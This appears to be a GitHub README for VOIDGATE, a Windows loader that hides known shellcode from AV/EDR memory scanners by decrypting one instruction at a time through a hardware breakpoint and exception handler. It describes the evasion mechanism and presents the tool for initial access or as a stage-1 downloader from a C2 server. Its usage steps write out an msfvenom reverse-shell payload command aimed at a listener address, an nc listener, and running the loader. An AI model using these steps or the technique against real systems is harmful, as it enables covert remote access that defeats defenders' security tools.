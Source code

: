 

# VOIDGATE
### Description:
A technique that can be used to `bypass AV/EDR memory scanners`. This can be used to hide well-known and detected shellcodes (such as msfvenom) by performing `on-the-fly decryption of individual encrypted assembly instructions`, thus rendering memory scanners useless for that specific memory page.
_______________

### How it works:
This technique will create a `PAGE_EXECUTE_READWRITE` memory region where the encrypted assembly instructions will be stored. The shellcode will be wrapped around some padding. The program will set a `Hardware Breakpoint` (HWBP) on the entrypoint of the shellcode.

Next, the program will install a `Vectored Exception Handler` (VEH). This VEH will basically act like a `debugger`, single stepping through the code, reading the instruction pointer register (RIP) for each `SINGLE STEP` exception received by the VEH, and decrypting the next 16 bytes (maximum x64 assembly instruction length) where RIP points . The VEH also encrypts back the previously decrypted instruction, ensuring that the rest of the shellcode stays always encrypted with the exception of the single assembly instruction currently executed. After that, it will continue execution, with the `TRAP FLAG` configured on the Eflags register. This will ensure that the next assembly instruction will also trigger a breakpoint exception that the VEH can handle.

 After that, the `main thread` execution will be redirected to the `payload entrypoint`. When the HWBP will be triggered at the entrypoint, the VEH will stop at each assembly instruction executed, perform the decryption of the next assembly instruction and encrypt the previous encrypted instruction which is saved as a global variable.

By doing this, basically `one single assembly instruciton is decrypted at a time`, with the rest of the `payload staying encrypted`.
____

### Limitations:
`NOTE:` This technique is ideal to obtain an initial access using a basic shellcode such as msfvenom or custom revers shells. This can also be used as an initial stage 1 payload that downloads the rest of the payload from the C2 server.

`NOTE:` This technique is not compatible with all payloads (such as reflective loaders) . Below is a list of current limitations:

* 1.) Since the `VEH` will trigger for `EACH ASSEMBLY INSTRUCTION` executed in the shellcode, the execution speed of the shellcode will be drastically slowed down. For each assembly instruction the CPU executes, the VEH will execute at least an additional 300 ASM instructions to perform the decryption, encryption and restore execution to the main thread. If the given shellcode is optimized for smaller size over performance (such as msfvenom), payload execution will be slower. It can take over 15 seconds (depending on the CPU) to execute an MSFVENOM. This happens since the specific shellcode used by msfvenom is sacrificing performance to obtain smaller payload size.
* 2.) If the shellcode calls `NtCreateThread` or any of its wrappers in Kernelbase.dll with the `entrypoint inside the shellcode`, the payload will `not work` since the VEH will not trigger for that thread execution since there is `no HWBP installed at the entrypoint of the newly created thread`. (Work in progress - will be implemented further in this repo)
* 3.) If the shellcode has some `values/variables stored inside itself` (for example, having the raw string "powershell.exe" that is referenced via an offset in a call to WinExec WINAPI) or some number `saved at an offset`, and the shellcode will later try to load or reference it somewhere, the program will not work since the specific variable or string `will be encrypted` and the VEH does not decrypt it. If the shellcode pushes such arguments on the stack via assembly instructions, this technique will work with no issue. (Work in progress - will be implemented further in this repo)
_____
### Usage:
 
How to reproduce the POC:

* 1.) Create your msfvenom payload:
```
 msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.100.33 LPORT=443 -f raw > shell.asm
```
* 2.) Use the XorEncryptPayload.exe to XOR encrypt the payload
```
./XorEncryptPayload.exe C:\Path\to\shell.asm
```
* 3.) Update it inside the main.cpp of Voidgate project
* 4.) Ensure the xor key matches the encryptor and Voidgate project
* 5.) Ensure your listener is waiting for the shellcode
```
nc -nvlp 443
```
* 6.) Execute Voidgate.exe
____
### Demo:

![](https://github.com/vxCrypt0r/voidgate/blob/master/poc.gif)

________

### Disclaimer
This repository is for academic purposes, the use of this software is your responsibility.
